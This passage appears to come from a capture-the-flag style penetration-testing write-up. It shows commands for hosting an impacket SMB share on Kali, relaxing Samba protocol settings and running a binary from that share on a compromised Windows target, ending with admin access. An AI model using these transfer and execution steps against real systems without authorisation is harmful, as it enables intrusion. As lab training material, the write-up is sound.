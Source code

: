 Both netcat and powershell are not installed on the target machine, so we can’t use them to import the executable. Therefore, let’s try and setup an SMB server for the transfer.

Locate the SMB server script on kali.

![Untitled](/medias/images/legacy/Untitled%205.png)

Run the script to launch an SMB server on port 445 with the share name *temp* and the path to the whoami executable.

```bash
sudo /usr/share/doc/python-impacket/examples/smbserver.py temp /usr/share/windows-binaries/
```

![Untitled](/medias/images/legacy/Untitled%206.png)

Verify that script ran correctly by accessing the SMB share.

```bash
smbclient //10.10.14.14/temp
```

![Untitled](/medias/images/legacy/Untitled%207.png)

<aside>
💡 In last release of Kali there is an issue I encountered too. In order to get `smbclient`to work you need to edit the SMB configuration file. And then at least mine worked.

</aside>

<aside>
💡 I'm using `vi` to I edit the config file as follows:

</aside>

<aside>
💡 vi /etc/samba/smb.conf

</aside>

<aside>
💡 You need to add the following settings under `GLOBAL`:

</aside>

<aside>
💡 client min protocol = CORE
client max protocol = SMB

</aside>

In the target machine, you can now execute the whoami command using the temp share.

```bash
\\10.10.14.14\temp\whoami.exe
```

we already admin, so lets grab user and root

![Untitled](/medias/images/legacy/Untitled%208.png)

![Untitled](/medias/images/legacy/Untitled%209.png)